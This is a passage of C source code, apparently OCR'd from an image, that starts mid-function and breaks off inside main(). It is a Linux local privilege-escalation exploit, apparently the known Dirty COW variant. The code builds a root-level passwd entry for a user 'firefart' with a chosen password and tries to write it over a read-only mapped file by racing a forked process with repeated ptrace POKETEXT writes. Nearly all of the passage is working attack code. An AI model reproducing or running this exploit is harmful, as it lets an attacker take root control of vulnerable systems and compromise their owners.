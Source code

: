``` c

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  } else {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
```